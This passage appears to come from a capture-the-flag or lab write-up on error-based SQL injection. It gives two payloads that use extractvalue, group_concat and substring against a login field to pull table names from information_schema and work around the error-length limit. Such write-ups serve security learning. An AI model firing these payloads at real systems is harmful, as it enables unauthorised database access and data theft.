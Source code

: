 
Since we got an error, we can use the following payload:

`admin' and extractvalue(1,concat('~',(select group_concat(table_name) from information_schema.tables where table_schema=database())))#`

![Pasted image 20250117160454.png](../../IMAGES/Pasted%20image%2020250117160454.png)

We need to use `substring` due to the error limit, we need to intercept it:

`admin' AND extractvalue(1,concat('~',(SELECT SUBSTRING(GROUP_CONCAT(table_name),40,30) FROM information_schema.tables WHERE table_schema=database())))#`

![Pasted image 20250117160547.png](../../IMAGES/Pasted%20image%2020250117160547.png)
